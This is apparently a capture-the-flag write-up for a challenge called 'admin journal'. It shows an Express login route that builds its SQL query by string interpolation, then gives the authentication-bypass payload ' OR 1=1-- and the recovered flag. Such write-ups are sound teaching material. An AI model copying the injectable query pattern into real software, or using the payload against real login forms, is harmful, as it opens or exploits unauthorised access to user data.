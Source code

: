 # admin journal

## Challenge

Bypass the admin login to read the flag from the database.

## Walkthrough

```js
app.post('/login', (req, res) => {
    // ...
    const query = `SELECT * FROM users WHERE
        username = '${req.body.username}' AND
        password = '${req.body.password}'`;
    // ...
```

Trivial SQLI.

```sql
-- password: ' OR 1=1--

SELECT * FROM users WHERE
    username = 'admin' AND
    password = '' OR 1=1--
```

## Solve

`maple{ess_skew_el_inject10nz_are_pr3tty_fun}`
